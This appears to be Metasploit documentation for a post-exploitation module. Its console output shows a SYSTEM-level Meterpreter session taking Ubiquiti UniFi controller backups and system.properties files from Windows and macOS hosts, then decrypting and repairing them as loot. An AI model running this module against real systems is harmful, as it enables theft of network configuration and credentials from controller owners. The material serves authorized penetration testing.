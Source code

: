 #### Details

```
msf5 post(multi/gather/ubiquiti_unifi_backup) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-OBKF2JFCDKL
OS              : Windows 2012 (Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 3...
msf5 post(multi/gather/ubiquiti_unifi_backup) > loot

Loot
====

host           service  type                                      name                                                          content          info                                                   path
----           -------  ----                                      ----                                                          -------          ----                                                   ----
4.4.4.4                 ubiquiti.system.properties                C:\Users\Administrator\Ubiquiti UniFi\data\system.properties  text/plain                                                              /root/.msf4/loot/20190310155838_default_4.4.4.4_ubiquiti.system._035659.txt
4.4.4.4                 ubiquiti.unifi.backup                     5.10.19.unf                                                   application/zip  Ubiquiti Unifi Controller Encrypted Backup Zip         /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_024488.unf
4.4.4.4                 ubiquiti.unifi.backup_decrypted           5.10.19.unf.broken.zip                                        application/zip  Ubiquiti Unifi Controller Decrypted Broken Backup Zip  /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_661494.zip
4.4.4.4                 ubiquiti.unifi.backup_decrypted_repaired  5.10.19.unf.zip                                               application/zip  Ubiquiti Unifi Controller Backup Zip                   /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_212269.zip
```

### Ubiquiti Unifi Controller 5.10.20 on OSX 10.14.4

#### Module

```
msf5 post(multi/gather/ubiquiti_unifi_backup) > rexploit
[*] Reloading module...

[+] Read UniFi Controller file /Users/unifi/Library/Application Support/Unifi/data/system.properties
[+] File /Users/unifi/Library/Application Support/UniFi/data/backup/5.10.20.unf saved to /root/.msf4/loot/20190406110342_default_1.1.1.1_ubiquiti.unifi.b_683102.unf
[+] File 5.10.20.unf DECRYPTED and saved to /root/.msf4/loot/20190406110342_default_1.1.1.1_ubiquiti.unifi.b_122303.zip.  File needs to be repair via `zip -FF`
[*] Attempting to repair zip file (this is normal)
[+] File /Users/unifi/Library/Application Support/UniFi/data/backup/5.10.20.unf DECRYPTED and REPAIRED and saved to /root/.msf4/loot/20190406110342_default_1.1.1.1_ubiquiti.unifi.b_728913.zip.
[*] Post module execution completed
```
